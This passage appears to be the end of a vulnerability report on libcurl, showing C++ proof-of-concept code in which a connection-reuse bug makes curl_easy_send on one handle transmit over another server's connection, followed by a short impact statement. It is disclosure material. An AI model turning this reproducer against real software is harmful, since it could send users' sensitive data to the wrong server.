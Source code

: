 ```c++
	require(eret == CURLE_OK);
	eret = curl_easy_setopt(easy1236, CURLOPT_CONNECT_ONLY, 1);
	require(eret == CURLE_OK);
	eret = curl_easy_setopt(easy1236, CURLOPT_VERBOSE, 1L);
	require(eret == CURLE_OK);
	eret = curl_easy_setopt(easy1236, CURLOPT_MAXAGE_CONN, 1L);
	require(eret == CURLE_OK);
	mret = curl_multi_add_handle(multi, easy1236);
	require(mret == CURLM_OK);

	// Create connection to port 1236, which re-uses the memory of the previous connection to port 1234
	while (true)
	{
		int running;
		mret = curl_multi_socket_action(multi, CURL_SOCKET_TIMEOUT, 0, &running);
		require(mret == CURLM_OK);
		int remaining;
		if (auto info = curl_multi_info_read(multi, &remaining))
		{
			require(info->msg == CURLMSG_DONE);
			require(info->easy_handle == easy1236);
			require(info->data.result == CURLE_OK);
			break;
		}
	}

	char c = 'a';
	size_t n;
	// Attempts to send data to port 1234, but actually uses the connection to port 1236
	eret = curl_easy_send(easy1234, &c, 1, &n);
	require(eret == CURLE_OK);

	mret = curl_multi_remove_handle(multi, easy1236);
	require(mret == CURLM_OK);
	mret = curl_multi_remove_handle(multi, easy1235);
	require(mret == CURLM_OK);
	mret = curl_multi_remove_handle(multi, easy1234);
	require(mret == CURLM_OK);
	mret = curl_multi_cleanup(multi);
	require(mret == CURLM_OK);
}
```

## Impact

This could cause sensitive data intended for one server to be transmitted to a different server.

## Attachments
No attachments
